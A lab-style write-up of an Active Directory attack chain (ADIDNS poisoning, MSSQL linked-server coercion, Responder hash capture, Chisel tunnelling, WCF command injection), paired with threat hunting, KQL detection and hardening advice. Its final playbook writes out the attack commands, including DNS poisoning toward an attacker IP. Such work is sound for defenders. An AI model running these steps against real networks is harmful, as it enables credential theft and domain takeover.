




[Evidence Logs](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/Logs.zip"Results")




# Defensive Operations


## Strategic Overview

* **1.1 StrategicDefinition:** A multi-stage compromise focusing on the exploitation of static credentials, architectural abuse of Active Directory Integrated DNS (ADIDNS), and coercion of MSSQL Linked Servers, culminating in local privilege escalation via a vulnerable WCF (Windows Communication Foundation) endpoint.
* **1.2 StrategicImpact:** Complete domain compromise and persistent access (SYSTEM level) via service account hijacking and application-layer command injection. The primary critical failure is the "Linked Server" trust relationship which allows lateral movement via forced authentication.
* **1.3 TheAttackScenario:** An attacker gains initial footing by extracting hardcoded credentials (`sqlsvc`) from a forgotten development artifact on an SMB share. Leveraging default Active Directory permissions, the attacker poisons a DNS record to hijack traffic destined for a trusted MSSQL Linked Server (`SQL07`). This coerces the MSSQL service account (`sqlmgmt`) to authenticate to the attacker, allowing for credential theft. Final elevation is achieved by tunneling into a locally bound .NET administration service and exploiting a command injection vulnerability.


## System Architecture Theory

* **2.1 ProtocolEnvironment:**
* **ActiveDirectory (AD):** Identity provider and DNS authority.
* **MssqlServer (Port 6520):** Database engine configured with "Linked Servers" for remote queries.
* **WcfNet:** Local management interface (`MonitorService`) listening on localhost.
* **WinRm:** Management protocol used for remote access.


* **2.2 AttackLogicFlow:**
* `[SmbArtifactExtraction]` -> `[AdidnsPoisoning]` -> `[MssqlLinkedServerCoercion]` -> `[Ntlmv2CaptureAndCrackPass]` -> `[WinrmAccess]` -> `[LocalWcfCommandInjection]` -> `[SystemPrivilege]`


* **2.3 TheoreticalAnalogy:** The attack is akin to changing a street sign (DNS) so that an armored truck (MSSQL Service Account) expecting to deliver cash to a bank (Linked Server) drives into an ambush (Responder) instead. Once inside the truck, the attacker uses the driver's keys to open a maintenance door (WCF Service) that has no security guard (Input Validation).


## The Attack Vector Mechanics

### The Core Mechanism

| Attribute                  | Technical Details                                                                                                                                                                               |
| :------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | **SPN:** `MSSQLSvc/S200401.overwatch.htb:6520`<br><br>**DNS Object:** `DC=sql07,DC=overwatch.htb,CN=MicrosoftDNS,DC=DomainDnsZones`                                                             |
| **Critical Vulnerability** | **ADIDNS misconfiguration:** Authenticated users can create arbitrary DNS records.<br><br>**MSSQL linked server trust:** MSSQL attempts NTLM authentication to attacker-defined linked servers. |
| **Offensive Action**       | 1. Register malicious DNS record with `dnstool.py`.<br><br>2. Coerce MSSQL authentication using `EXEC('SELECT 1') AT [SQL07]`.<br><br>3. Capture `sqlmgmt` NTLMv2 credentials via Responder.    |


### Attack Prerequisites

* **AccessLevel:** Any valid Domain User credentials (e.g., `sqlsvc`).
* **TargetConnectivity:** Access to LDAPS (636) or DNS (53) for poisoning; Access to MSSQL (6520).
* **TargetState:** An improperly configured or dormant Linked Server entry (`SQL07`) must exist in the MSSQL configuration, or the ability to add one must be present.


## Threat Hunting Anomaly Analysis

* **HuntHypothesis:** Adversaries will abuse the `Authenticated Users` group permission to add DNS records (Node creation) to redirect traffic. This will be followed by anomalous outbound NTLM authentication traffic from high-value servers (Database/Exchange) to non-domain IP ranges.
* **BehavioralOutliers:**
* **DnsOutlier:** A user account (not a machine account or Admin) creating `A` records in the Forward Lookup Zone.
* **ProcessOutlier:** `sqlservr.exe` initiating outbound `TCP/445` (SMB) connections to private IP ranges (e.g., VPN/Attacker subnets) is highly irregular.
* **LocalhostTrafficOutlier:** High-volume traffic or HTTP POST requests to `127.0.0.1:8000` originating from a non-standard process (tunneling tools like Chisel).


* **ToxicCombinations:** The `sqlmgmt` account having both `SeRemoteInteractiveLogonRight` (WinRM access) and administrative control over the MSSQL instance creates a direct path from database compromise to OS compromise.


## Detection Engineering

* **TelemetryGapAnalysis:**
* **AdLogs:** Event ID 5136 (Directory Service Object modified) is required to see the DNS record creation.
* **SysmonLogs:** Event ID 3 (Network Connection) for `sqlservr.exe` outbound behavior.
* **WcfAppLogs:** Event ID 4688 (Process Creation) to detect `MonitorService.exe` spawning shells.


* **DetectionAsCode (KQL):**

```kql
// Detects MSSQL Server Process initiating outbound SMB connections (Likely Linked Server Abuse)
DeviceNetworkEvents
| where InitiatingProcessFileName =~ "sqlservr.exe"
| where RemotePort == 445
| where RemoteIPType == "Private" or RemoteIPType == "Public"
// Exclude legitimate Domain Controllers or File Servers
| where not (RemoteIP in ("10.XXX.X.DC", "10.XXX.X.FS"))
| project TimeGenerated, DeviceName, InitiatingProcessAccountName, RemoteIP, RemotePort

```

* **ResilienceTest:**
* **DetectionBypass:** Attacker tunnels traffic via port 80/443 to avoid port 445 triggers.
* **DetectionSubRule:** Correlate with Event ID 5136 where `AttributeName` = `dnsRecord` and `SubjectUserName` is NOT a Domain Admin or Machine Account.


## Toolkit Implementation

* **AutomationTools:**
* **ReconTools:** `nmap`, `smbclient`, `dnSpy` (Static Analysis).
* **AdidnsTools:** `dnstool.py` (Impacket/Krbrelayx suite).
* **AuthCaptureTools:** `Responder` (Python).
* **TunnelingTools:** `Chisel` (Go-based SOCKS5/Tunnel).
* **ExploitationTools:** `evil-winrm`, Custom Python Script (`requests` lib).


* **OpsecAnalysis:** The ADIDNS attack is "noisy" in logs (Event 5136) but silent to users. The Chisel tunnel effectively hides the WCF exploitation traffic from network sensors, making it invisible to NIDS unless SSL inspection is active or the process execution is caught by EDR.
* **PostExploitation:** Following SYSTEM access, the attacker utilized `Persistence.exe` (likely a custom C2 beacon) and began log exfiltration (`Loot_*.zip`), indicating a transition to data theft and long-term residency.


## Defensive Mitigation

* **TechnicalHardening:**
* **DnsSecurityHardening:** Change the ACL on the DNS Zone to allow "Secure Updates Only" and restrict "Create all child objects" permissions for the `Authenticated Users` group.
* **MssqlHardening:** Disable `xp_dirtree` and `xp_fileexist` if not required. Firewall `sqlservr.exe` to block outbound SMB (445) to the internet or client subnets.
* **AppSecHardening:** Implement strict input validation on the `MonitorService` WCF endpoint to reject shell metacharacters (`;`, `&`, `|`).


* **PersonnelFocus:**
* **SecretsManagementFocus:** Enforce policy against hardcoding credentials in source code (`sqlsvc` in `Overwatch.exe`). Use gMSA (Group Managed Service Accounts) instead.
* **LeastPrivilegeFocus:** Ensure Service Accounts (`sqlmgmt`) do not have Interactive Logon rights.


## Quick Action Playbook

| Step | Objective                 | Technical Command / Logic                                                              |
| :--: | :------------------------ | :------------------------------------------------------------------------------------- |
|  01  | **Enumerate targets**     | `nmap -p 6520 -sV 10.XXX.X.XXX`                                                        |
|  02  | **Poison DNS**            | `python3 dnstool.py -u sqlsvc -p 'Pass' -r sql07 -d <AttackerIP> --action add <DC-IP>` |
|  03  | **Coerce authentication** | `impacket-mssqlclient ... -c "EXEC('SELECT 1') AT [SQL07]"`                            |
|  04  | **Establish tunnel**      | `./chisel server -p 8001 --reverse`                                                    |
|  05  | **Exploit WCF service**   | Custom exploit injecting PowerShell payload into SOAP body (`KillProcess` method).     |
